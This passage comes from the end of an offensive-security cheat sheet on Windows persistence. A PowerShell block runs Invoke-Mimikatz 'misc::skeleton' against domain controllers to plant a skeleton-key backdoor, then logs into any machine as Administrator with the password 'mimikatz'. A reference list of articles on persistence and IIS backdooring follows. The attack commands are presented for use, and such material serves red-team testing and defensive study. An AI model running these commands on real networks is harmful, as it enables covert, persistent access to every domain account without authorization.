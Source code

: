 ```powershell
# Exploitation Command runned as DA:
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DCs FQDN>

# Access using the password "mimikatz"
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```

## References

* [A view of persistence - Rastamouse](https://rastamouse.me/2018/03/a-view-of-persistence/)
* [Windows Persistence Commands - Pwn Wiki](http://pwnwiki.io/#!persistence/windows/index.md)
* [SharPersist Windows Persistence Toolkit in C - Brett Hawkins](http://www.youtube.com/watch?v=K7o9RSVyazo)
* [IIS Raid – Backdooring IIS Using Native Modules - 19/02/2020](https://www.mdsec.co.uk/2020/02/iis-raid-backdooring-iis-using-native-modules/)
* [Old Tricks Are Always Useful: Exploiting Arbitrary File Writes with Accessibility Tools - Apr 27, 2020 - @phraaaaaaa](https://iwantmore.pizza/posts/arbitrary-write-accessibility-tools.html)
* [Persistence - Checklist - @netbiosX](https://github.com/netbiosX/Checklists/blob/master/Persistence.md)
* [Persistence – Winlogon Helper DLL - @netbiosX](https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/)
* [Persistence - BITS Jobs - @netbiosX](https://pentestlab.blog/2019/10/30/persistence-bits-jobs/)
* [Persistence – Image File Execution Options Injection - @netbiosX](https://pentestlab.blog/2020/01/13/persistence-image-file-execution-options-injection/)
* [Persistence – Registry Run Keys - @netbiosX](https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/)
